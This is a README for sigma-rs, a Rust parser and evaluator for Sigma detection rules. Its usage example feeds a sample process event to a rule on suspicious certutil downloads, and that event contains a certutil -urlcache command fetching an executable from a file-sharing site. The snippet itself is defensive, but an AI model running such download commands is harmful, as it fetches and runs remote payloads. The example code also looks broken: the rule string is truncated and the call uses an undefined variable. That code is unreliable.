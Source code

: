 # sigma-rs
A Rust implementation and parser of [Sigma rules](https://github.com/SigmaHQ/sigma). Useful for building your own detection pipelines.

## Features
- support complex condition like ```(not test*) and ((1 of test1) or (all of test))```
- regex build cache
## Usage
```
let rule = r#"title: Suspicious File Downloaded From File-Sharing Website Via Certutil.EXE#;
let json = r#"{
    "Image": "C:\\Windows\\system32\\certutil.exe",
    "ParentImage": "C:\\WINDOWS\\system32\\cmd.exe",
    "ProcessId": "10952",
    "utc_time": "2023-03-20 17:31:23",
    "ServerScore": "0",
    "CommandLine": "certutil  -urlcache \"-split\" \"-f\" \"http://transfer.sh/artifact.exe test.exe\"",
    "ParentCommandLine": "\"C:\\WINDOWS\\system32\\cmd.exe\"",
    "OriginalFile": "CertUtil.exe.mui",
    "log_type": "ProcessCreate"
  }"#
println!("{}", evaluate_sigma(parse_sigma(rule.to_string()), &source));
```